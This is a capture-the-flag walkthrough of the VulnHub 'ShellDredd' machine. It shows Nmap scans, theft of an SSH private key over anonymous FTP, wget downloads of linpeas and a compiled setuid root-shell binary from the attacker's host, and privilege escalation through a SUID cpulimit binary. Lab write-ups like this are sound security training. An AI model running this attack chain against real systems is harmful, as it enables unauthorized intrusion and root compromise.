


All the content on this website, including this post, is intended for educational use only. The techniques and processes presented should only be used against systems you own or have explicit written permission to target. Otherwise, you are breaking the Law - be smart. The author/s of this website will not accept any liability for misuse of this content.
ShellDread is a CTF hacking exercise available at https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/. Have a go before you read the walkthrough ;).
Firstly we scan the target using Nmap to determine the services present on the system.
nmap -sC 192.168.1.209 -o scan.nmap Starting Nmap 7.70 ( https://nmap.org ) at 2020-09-08 21:02 BST Nmap scan report for ShellDredd.home (192.168.1.209) Host is up (0.000065s latency). Not shown: 999 closed ports PORT STATE SERVICE 21/tcp open FTP |_ftp-anon: Anonymous FTP login allowed (FTP code 230) | FTP-syst: | STAT: | FTP server status: | Connected to ::ffff:192.168.1.173 | Logged in as ftp | TYPE: ASCII | No session bandwidth limit | Session timeout in seconds is 300 | Control connection is plain text | Data connections will be plain text | At session startup, client count was 4 | vsFTPd 3.0.3 - secure, fast, stable |_End of status MAC Address: 08:00:27:EF:B3:22 (Oracle VirtualBox virtual NIC) Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
There is only one service open. We decide to scan all ports on the target to see if there are any services on non-standard ports.
root@kali:~/Documents/vulnhub/shelldredd# nmap -sC -p- 192.168.1.209 -o scan-all.nmap Starting Nmap 7.70 ( https://nmap.org ) at 2020-09-08 21:03 BST Nmap scan report for ShellDredd.home (192.168.1.209) Host is up (0.000088s latency). Not shown: 65533 closed ports PORT STATE SERVICE 21/tcp open ftp |_ftp-anon: Anonymous FTP login allowed (FTP code 230) | ftp-syst: | STAT: | FTP server status: | Connected to ::ffff:192.168.1.173 | Logged in as ftp | TYPE: ASCII | No session bandwidth limit | Session timeout in seconds is 300 | Control connection is plain text | Data connections will be plain text | At session startup, client count was 1 | vsFTPd 3.0.3 - secure, fast, stable |_End of status 61000/tcp open unknown MAC Address: 08:00:27:EF:B3:22 (Oracle VirtualBox virtual NIC) Nmap done: 1 IP address (1 host up) scanned in 2.80 seconds
Indeed we now see a service on port 61000. We scan this port individually to determine the type and version of the service running using -sV.
root@kali:~/Documents/vulnhub/shelldredd# nmap -sV -p 61000 192.168.1.209 Starting Nmap 7.70 ( https://nmap.org ) at 2020-09-08 21:05 BST Nmap scan report for ShellDredd.home (192.168.1.209) Host is up (0.00044s latency). PORT STATE SERVICE VERSION 61000/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) MAC Address: 08:00:27:EF:B3:22 (Oracle VirtualBox virtual NIC) Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds root@kali:~/Documents/vulnhub/shelldredd#
We see that port 61000 is running SSH. Next lets login over FTP which allows anonymous logins.
root@kali:~/Documents/vulnhub/shelldredd# ftp 192.168.1.209 Connected to 192.168.1.209. 220 (vsFTPd 3.0.3) Name (192.168.1.209:root): anonymous 331 Please specify the password. Password: 230 Login successful. Remote system type is UNIX. Using binary mode to transfer files. ftp> ls -la 200 PORT command successful. Consider using PASV. 150 Here comes the directory listing. drwxr-xr-x 3 0 115 4096 Aug 06 16:56 . drwxr-xr-x 3 0 115 4096 Aug 06 16:56 .. drwxr-xr-x 2 0 0 4096 Aug 06 16:54 .hannah 226 Directory send OK. ftp> cd .hannah 250 Directory successfully changed. ftp> ls -la 200 PORT command successful. Consider using PASV. 150 Here comes the directory listing. drwxr-xr-x 2 0 0 4096 Aug 06 16:54 . drwxr-xr-x 3 0 115 4096 Aug 06 16:56 .. -rwxr-xr-x 1 0 0 1823 Aug 06 16:54 id_rsa 226 Directory send OK. ftp> get id_rsa local: id_rsa remote: id_rsa 200 PORT command successful. Consider using PASV. 150 Opening BINARY mode data connection for id_rsa (1823 bytes). 226 Transfer complete. 1823 bytes received in 0.00 secs (16.7168 MB/s) ftp> ^C ftp> quit 221 Goodbye. root@kali:~/Documents/vulnhub/shelldredd#
We find a hidden directory ‘.hannah’ in the root of the FTP server. Changing directory here we find an id_rsa file - an SSH private key. This should allow us to log in to the server as the user Hannah based on the name of the hidden directory.
root@kali:~/Documents/vulnhub/shelldredd# ssh -i id_rsa hannah@192.168.1.209 -p 61000 Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Tue Sep 8 21:33:51 2020 from 192.168.1.173 hannah@ShellDredd:~$
Indeed we now have shell access as the user Hannah. First things first we need to enumerate the target system for privilege escalation vectors. To automate this process we download an enumeration script called linpeas.sh from our Kali machine.
Kali Machine: root@kali:~/Documents/vulnhub/shelldredd# cd /var/www/html/linux/ root@kali:/var/www/html/linux# ls 40871.c dirtycow.c LinEnum.sh linuxprivchecker.py passwd dirty les.sh linpeas.sh lse.sh pspy32s root@kali:/var/www/html/linux# python -m SimpleHTTPServer 80 Serving HTTP on 0.0.0.0 port 80 ...
Target Machine: hannah@ShellDredd:~$ cd /tmp hannah@ShellDredd:/tmp$ wget http://192.168.1.173/linpeas.sh --2020-09-08 22:12:38-- http://192.168.1.173/linpeas.sh Conectando con 192.168.1.173:80... conectado. Petición HTTP enviada, esperando respuesta... 200 OK Longitud: 229577 (224K) [text/x-sh] Grabando a: “linpeas.sh” linpeas.sh 100%[====================>] 224,20K --.-KB/s en 0,001s 2020-09-08 22:12:38 (153 MB/s) - “linpeas.sh” guardado [229577/229577] hannah@ShellDredd:/tmp$ chmod +x linpeas.sh hannah@ShellDredd:/tmp$
After downloading the script we give it executable permissions. We then run the script.
hannah@ShellDredd:/tmp$ ./linpeas.sh ... [+] SUID - Check easy privesc, exploits and write perms [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands /usr/lib/eject/dmcrypt-get-device /usr/lib/dbus-1.0/dbus-daemon-launch-helper /usr/lib/openssh/ssh-keysign /usr/bin/gpasswd /usr/bin/newgrp ---> HP-UX_10.20 /usr/bin/umount ---> BSD/Linux(08-1996) /usr/bin/mawk /usr/bin/chfn ---> SuSE_9.3/10 /usr/bin/su /usr/bin/chsh /usr/bin/cpulimit /usr/bin/mount ---> Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8 /usr/bin/passwd ---> Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997) ...
We see several interesting SETUID files, namely /usr/bin/mawk and /usr/bin/cpulimit. A SETUID file is an executable that, when run, executes with executable's owner privileges. Since these two SETUID executables are owned by root they will run with root privileges.
hannah@ShellDredd:/tmp$ ls -la /usr/bin/mawk -rwsr-sr-x 1 root root 121976 mar 23 2012 /usr/bin/mawk hannah@ShellDredd:/tmp$ ls -la /usr/bin/cpulimit -rwsr-sr-x 1 root root 23072 jun 23 2017 /usr/bin/cpulimit hannah@ShellDredd:/tmp$
We check gtfobins for possible exploits agasint these programs.
https://gtfobins.github.io/ search results for 'mawk'

https://gtfobins.github.io/ search results for 'cpulimit'
We try both of these exploits.
hannah@ShellDredd:/tmp$ mawk 'BEGIN {system("/bin/sh")}'
$ id
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
$ ^C
$ exit
hannah@ShellDredd:/tmp$ cpulimit -l 100 -f /bin/sh
Process 22309 detected
$ id
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
$
Unfortunately, each fails to give us a root shell even though they are running with root privileges. How can this be? Executables can choose to drop their privileges whilst running instructions that do not require root privileges and only run with root privileges when executing instructions that require root privileges. This ensures that if the program is compromised in some way the attacker is less likely to gain root privileges, as in our case.
However, we can force the program to run with root privileges using the setuid function in C. Setuid sets the effective user ID of the calling process. Consider the following program.
shell.c:
include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
In main, we set the user ID of the process to 0 - the user ID of root. Thus the remainder of the instructions will run with root privileges (if the program has the privilege to run setuid(0)). This will execute /bin/bash as root and spawn a root shell.
Both the SETUID programs we identified earlier run with root privileges (or at least the ability to call setuid(0) and start a process with root privileges) as they are SETUID binaries. We will force the SETUID's to execute the above program, which should start a process with root privileges and spawn a root shell.
Firstly we compile the program on our Kali machine. Since Kali is based on Debian and the target machine is running a recent version of Debian we should have no problems running the program on the target.
oot@kali:~/Documents/vulnhub/shelldredd# gcc -o shell shell.c
shell.c: In function ‘main’:
shell.c:6:23: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
6 | setuid(0); setgid(0); system("/bin/bash");
| ^~~~~~
root@kali:~/Documents/vulnhub/shelldredd#
We then transfer the executable over to the target machine using wget as we did for linpeas. We then grant the executable executable permissions.
hannah@ShellDredd:/tmp$ wget http://192.168.1.173/shell --2020-09-08 22:31:07-- http://192.168.1.173/shell Conectando con 192.168.1.173:80... conectado. Petición HTTP enviada, esperando respuesta... 200 OK Longitud: 16712 (16K) [application/octet-stream] Grabando a: “shell” shell 100%[====================>] 16,32K --.-KB/s en 0s 2020-09-08 22:31:07 (48,7 MB/s) - “shell” guardado [16712/16712] hannah@ShellDredd:/tmp$ chmod +x shell hannah@ShellDredd:/tmp$
We will then try to execute the following commands.
mawk 'BEGIN {system("/tmp/shell")}'
cpulimit -l 100 -f /tmp/shell
This will run our shell program in the privileged context of the SETUIDs mawk and cpulimit. This has the same effect as running the /tmp/shell executable with SETUID root privileges. Hence the program has the privileges to start a process as root and we will get a root shell.
hannah@ShellDredd:/tmp$ mawk 'BEGIN {system("/tmp/shell")}'
hannah@ShellDredd:/tmp$ id
uid=1000(hannah) gid=1000(hannah) grupos=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
hannah@ShellDredd:/tmp$ exit
exit
hannah@ShellDredd:/tmp$ cpulimit -l 100 -f /tmp/shell
Process 22338 detected
root@ShellDredd:/tmp# id
uid=0(root) gid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
root@ShellDredd:/tmp#
mawk fails but we are successful with cpulimit and now we are root! This completes the challenge. I hope you enjoyed it. BlueHood out.
root@ShellDredd:/tmp# cd /root root@ShellDredd:/root# wc root.txt 1 1 25 root.txt root@ShellDredd:/root#